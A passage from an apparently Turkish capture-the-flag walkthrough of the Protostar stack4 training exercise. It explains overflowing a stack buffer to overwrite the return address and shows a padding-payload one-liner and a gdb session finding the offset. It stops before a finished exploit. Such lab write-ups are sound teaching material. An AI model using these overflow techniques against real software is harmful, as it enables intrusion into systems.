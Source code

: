 ![alt https://securedorg.github.io/RE101/section1.2/](protostarPNG/stackframe.png "stackframe")

Resimdeki `stack frame` yapısını incelersek `buffer` ı taşırıp sırasıyla `ebp` ve `return` adresine yazmamız lazım. Tabi `buffer` bitiminden sonra direkt `ebp` ve `return` e yazmaya başlamıyoruz. Compiler versiyonuna veya derlerken verilen optimizasyon `flag`lerine göre aradaki açıklık artabilir.

Return adresine kaç `byte`tan sonra yazmaya başlıyoruz onu bulalım.

```bash
$ cd /tmp/
$ python -c "print 'A' * 64 + 'BBCCDDEEFFGGHHIIJJ'" > st4
$ echo "set disassembly-flavor intel" > ~/.gdbinit # varsayılan at&t
$ cd /opt/protostar/bin
$ gdb -q ./stack4
Reading symbols from /opt/protostar/bin/stack4...done.
(gdb) disas main
Dump of assembler code for function main:
0x08048408 <main+0>:	push   ebp
0x08048409 <main+1>:	mov    ebp,esp
0x0804840b <main+3>:	and    esp,0xfffffff0
0x0804840e <main+6>:	sub    esp,0x50
0x08048411 <main+9>:	lea    eax,[esp+0x10]
0x08048415 <main+13>:	mov    DWORD PTR [esp],eax
0x08048418 <main+16>:	call   0x804830c <gets@plt>
0x0804841d <main+21>:	leave  
0x0804841e <main+22>:	ret    
End of assembler dump.
(gdb) break *0x0804841d
Breakpoint 1 at 0x804841d: file stack4/stack4.c, line 16.
(gdb) run < /tmp/st4
Starting program: /opt/protostar/bin/stack4 < /tmp/st4

Breakpoint 1, main (argc=1, argv=0xbffff864) at stack4/stack4.c:16
16	stack4/stack4.c: No such file or directory.
	in stack4/stack4.c
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x49494848 in ?? ()
run < /tmp/st4
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/stack4 < /tmp/st4

Breakpoint 1, main (argc=19018, argv=0xbffff864) at stack4/stack4.c:16
16	in stack4/stack4.c
(gdb) x/100x $esp
```